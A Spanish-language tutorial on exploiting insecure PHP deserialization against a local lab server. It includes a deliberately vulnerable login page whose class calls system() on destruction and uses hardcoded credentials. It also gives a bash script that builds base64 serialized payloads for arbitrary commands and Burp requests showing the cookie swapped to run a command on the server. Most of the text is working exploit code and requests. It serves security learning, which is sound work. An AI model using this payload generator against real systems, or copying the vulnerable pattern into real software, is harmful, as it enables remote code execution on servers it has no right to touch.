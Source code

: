 ```yaml
---
icon: php
---
```


# Deserialización Insegura PHP

## Pagina Vulnerable Deserialización Insegura en PHP

Si nosotros por ejemplo tenemos este codigo de `PHP` como una pagina por ejemplo:

> index.php

```php
<?php
// Clase vulnerable: al deserializar el objeto se ejecuta el comando almacenado en $cmd
class Vulnerable {
    public $cmd;

    public function __construct($cmd) {
        $this->cmd = $cmd;
    }

    public function __destruct() {
        system($this->cmd);
    }
}

// Función para verificar si las credenciales son correctas
function authenticate($username, $password) {
    $valid_users = [
        'admin' => 'admin',
        'user' => 'user'
    ];

    if (isset($valid_users[$username]) && $valid_users[$username] === $password) {
        return true;
    }
    return false;
}

// Si el formulario es enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Recuperamos las credenciales del formulario
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    // Si las credenciales son correctas
    if (authenticate($username, $password)) {
        // Creamos un payload malicioso (cookie) solo para usuarios válidos
        $cmd = "echo 'Comando ejecutado exitosamente';";  // Cambia esto con el comando que desees
        $vulnerable_object = new Vulnerable($cmd);
        $serialized_object = serialize($vulnerable_object);
        $encoded_payload = base64_encode($serialized_object);

        // Establecemos la cookie con el payload
        setcookie('session', $encoded_payload, time() + 3600, "/"); // La cookie durará 1 hora

        // Redirigimos al usuario a panel.php después del login
        header('Location: panel.php?username=' . urlencode($username));
        exit;
    } else {
        echo "<p>Credenciales incorrectas. Por favor, inténtalo de nuevo.</p>";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login - Deserialización Insegura</title>
</head>
<body>
    <h1>Login de Usuario</h1>

    <!-- Formulario de login -->
    <form method="POST">
        <label for="username">Nombre de usuario:</label>
        <input type="text" id="username" name="username" required><br><br>

        <label for="password">Contraseña:</label>
        <input type="password" id="password" name="password" required><br><br>

        <button type="submit">Iniciar sesión</button>
    </form>
</body>
</html>
```

Vemos que no valida la entrada que se `serializa` y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad como por ejemplo una implementacion de `JWT`, si entramos a esta pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
user:user
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario `user` y veremos lo siguiente en la peticion con `BurpSuite`:

<figure><img src="../../../.gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

> Peticion de BurpSuite

```
GET /panel.php?username=user HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://172.17.0.2/
Connection: keep-alive
Cookie: PHPSESSID=r5gbqlkt226hdgitiv4q5jekou; session=TzoxMDoiVnVsbmVyYWJsZSI6MTp7czozOiJjbWQiO3M6Mzg6ImVjaG8gJ0NvbWFuZG8gZWplY3V0YWRvIGV4aXRvc2FtZW50ZSc7Ijt9
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo `serializado` con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `bash` para generar codigos `serializados`:

> exploitSerial.sh

```bash
#!/bin/bash

# Verificamos si el usuario pasó el comando
if [ -z "$1" ]; then
    echo "Uso: $0 '<comando_a_ejecutar>'"
    exit 1
fi

# El comando que queremos ejecutar, recibido como argumento
COMMAND=$1

# Creamos un archivo PHP temporal con el código que genera el payload
cat > /tmp/serializable_payload.php <<EOF
<?php
// Clase vulnerable: al deserializar el objeto se ejecuta el comando almacenado en \$cmd
class Vulnerable {
    public \$cmd;

    public function __construct(\$cmd) {
        \$this->cmd = \$cmd;
    }

    public function __destruct() {
        system(\$this->cmd);
    }
}

// Creamos el objeto vulnerable con el comando proporcionado
\$vulnerable_object = new Vulnerable("$COMMAND");

// Serializamos el objeto
\$serialized_object = serialize(\$vulnerable_object);

// Mostramos el objeto serializado en Base64
echo base64_encode(\$serialized_object);
EOF

# Ejecutamos el archivo PHP y obtenemos el payload en base64
payload=$(php /tmp/serializable_payload.php)

# Limpiamos el archivo temporal
rm /tmp/serializable_payload.php

# Mostramos el payload
echo "Payload Base64: $payload"
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
bash exploitSerial.sh 'touch /tmp/exploit.txt'
```

Info:

```
Payload Base64: TzoxMDoiVnVsbmVyYWJsZSI6MTp7czozOiJjbWQiO3M6MjI6InRvdWNoIC90bXAvZXhwbG9pdC50eHQiO30=
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET /panel.php?username=user HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://172.17.0.2/
Connection: keep-alive
Cookie: PHPSESSID=r5gbqlkt226hdgitiv4q5jekou; session=TzoxMDoiVnVsbmVyYWJsZSI6MTp7czozOiJjbWQiO3M6MjI6InRvdWNoIC90bXAvZXhwbG9pdC50eHQiO30=
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos al servidor para comprobar que ha funcionado la `deserializacion` y que se ha ejecutado de forma correcta en el servidor:

<figure><img src="../../../.gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.
